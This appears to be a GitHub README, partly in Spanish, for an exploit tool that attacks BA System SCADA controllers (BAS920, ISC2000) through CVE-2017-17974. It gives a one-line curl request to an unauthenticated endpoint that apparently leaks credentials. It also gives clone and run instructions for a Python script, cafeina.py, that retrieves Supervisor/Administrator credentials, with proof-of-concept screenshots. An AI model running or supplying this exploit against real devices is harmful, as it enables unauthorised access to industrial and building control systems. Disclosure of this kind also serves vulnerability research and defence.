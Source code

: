 #  [Tool] BAcK System
## [BA System] “Improper Access Control (Authorization)”


	[*] Exploit Title:       "Improper Access Control (Authorization)” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"


![BAS920_2](screenshot/get_passwd.png)


### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:

![BAS920_3](screenshot/POC_1.png)
![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)
![BAS920_6](screenshot/INDOOR_2.png)


***


# TOOL: "BAcK System"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help

	usr@pwn:~/$ python cafeina.py --help

	python cafeina.py --help
	usage: cafeina.py [-h] [-v] --host HOST [--port PORT]

	[+] obtaining the credential information for the Supervisor/Administrator
	account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python cafeina.py --host 192.168.1.101 -p 81

***

## Usage:

![BAS920_7](screenshot/tool_passwd.png)

#### Las update !!!
![BAS920_8](screenshot/poc_tool_1.png)

